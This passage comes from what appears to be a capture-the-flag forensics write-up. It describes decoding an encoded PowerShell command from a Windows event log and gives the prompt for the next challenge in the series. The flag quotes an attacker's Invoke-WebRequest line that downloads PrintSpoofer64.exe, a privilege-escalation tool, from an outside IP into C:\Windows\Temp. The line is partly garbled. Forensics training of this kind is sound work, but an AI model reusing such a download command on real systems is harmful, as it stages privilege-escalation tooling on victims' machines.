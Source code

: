 3. Identify the encoded powershell command in the log

![](forensics/evtx302.png)

4. Copy encoded command to CyberChef and decode

![](forensics/evtx303.png)

### Flag:
`flag{ = 'http://49.113.27.22/PrintSpoofer64.exe'; Invoke-WebRequest  -OutFile C:\Windows\Temp\print.exe}`


## If It Wasn't Recorded, It Didn't Happen #4

### Category:
Forensics

### Challenge:
*Note: These six challenges are independent of each other.  You do not have to complete #1 to be able to solve #2, etc. but the challenge files are attached to #1 ONLY.*

A second encoded command ran successfully, but failed due to the anticipated vulnerability not being exploitable.  What privilege did the attacker attempt to exploit?
